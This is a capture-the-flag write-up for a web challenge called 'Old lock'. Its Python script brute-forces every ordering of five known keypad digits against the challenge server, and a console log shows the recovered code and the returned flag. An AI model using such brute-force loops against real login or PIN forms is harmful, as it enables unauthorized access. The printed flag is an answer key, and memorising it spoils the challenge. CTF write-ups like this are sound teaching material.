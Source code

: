 # Singapore - Harbour
Category: Web

## Description

> Boy this has been a tough journey, you had luck that you entered a box that contained some food. You hear foul voices and feel that some people pick up your box, and carry it to another place. When the voices disappear, you take the chance to escape. You have successfully arrived in Singapore. You find a peaceful café, order a cup of tea and charge your cell phone. PLING, you’ve received another text message from the boss: "I pretend that I don’t know where you are, but I do. You’ll have to forgive me, but I’ve had a tracker on you all the time. You have finally reached Singapore, find "M/S. Revenger" and sneak onboard, it will take you to our enemy's hidden island, make it quick, the ship is leaving the harbor soon, I count on you AGENT!." Look, overthere "M/S Revenger", you have to get closer! Hmm, but it seems quite guarded. You will have to swim! You go away from the ship and dive into the warm and clear water. It’s nice to go for a swim but you would have preferred it to be under more relaxed circumstances. You swim slowly towards the ship, finally you reach it, climb up on the side of it and in through a window. You find yourself in a cabin with locked doors. Thankfully, it's an electronic lock.
> 
> Challenge: Old lock (web)
> 
> You're not sure what metal the keypad was made of, but either it was very soft, or whoever punches in the code has waay too much strength in their fingers. This also means you're in luck, since it's pretty obvious which digits are actually used in the 5-digit code. The order is unknown, but there can't be that many possibilities, right? Note: Online brute forcing is allowed in this task.

## Solution

The attached website displays the following:

![](images/keypad.png)

We'll just try all possibilities:

```python
from pwn import *

import requests
import itertools

keys = [3, 5, 7, 8, 0]

with log.progress("Brute-forcing combination") as p:
    for permutation in itertools.permutations(keys):
        passcode = "".join(map(str, permutation))
        p.status(f"Trying {passcode}")
        r = requests.post("https://old-lock-web.2021.ctfcompetition.com/", data = {"v": passcode})
        if not "that's not it" in r.text:
            log.info(f"Found code: {passcode}")
            break
```

After a short while we get the combination:

```console
┌──(user@kali)-[/media/sf_CTFs/google/12_Singapore_-_Harbour]
└─$ python3 solve.py
[/] Brute-forcing combination: Trying 87053
[*] Found code: 87053

┌──(user@kali)-[/media/sf_CTFs/google/12_Singapore_-_Harbour]
└─$ curl 'https://old-lock-web.2021.ctfcompetition.com/' -s --data-raw 'v=87053' | grep CTF
<p>Got it!<br>CTF{IThinkWeNeedToReplaceTheKeypad}</p>    </div>
```

